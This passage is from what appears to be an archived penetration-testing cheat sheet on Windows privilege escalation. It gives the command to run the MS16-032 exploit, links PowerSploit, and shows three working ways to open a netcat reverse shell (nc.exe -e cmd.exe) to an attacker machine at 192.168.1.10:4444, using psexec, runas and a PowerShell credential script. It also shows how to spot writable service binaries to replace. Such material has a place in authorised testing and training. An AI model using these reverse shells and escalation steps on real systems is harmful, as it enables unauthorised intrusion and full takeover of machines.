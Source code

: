     MS16-032 [https://www.exploit-db.com/exploits/39719/](http://web.archive.org/web/20171113221652/https://www.exploit-db.com/exploits/39719/)

    `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"`

*   Powershell Priv Escalation Tools [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](http://web.archive.org/web/20171113221652/https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

*   Windows Run As - Switching users in linux is trival with the `SU` command. However, an equivalent command does not exist in Windows. Here are 3 ways to run a command as a different user in Windows.

    *   Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).

             C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 

             PsExec v2.2 - Execute processes remotely
             Copyright (C) 2001-2016 Mark Russinovich
             Sysinternals - www.sysinternals.com

    *   Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:

             C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
             Enter the password for Test:
             Attempting to start nc.exe as user "COMPUTERNAME\Test" ...

    *   PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.

             $username = '<username here>'
             $password = '<password here>'
             $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
             $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
             Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

        Next run this script using powershell.exe:

        `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"`

*   Windows Service Configuration Viewer - Check for misconfigurations in services that can lead to privilege escalation. You can replace the executable with your own and have windows execute whatever code you want as the privileged user.  
    icacls scsiaccess.exe

         scsiaccess.exe  
         NT AUTHORITY\SYSTEM:(I)(F)  
         BUILTIN\Administrators:(I)(F)  
         BUILTIN\Users:(I)(RX)  
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
         Everyone:(I)(F)
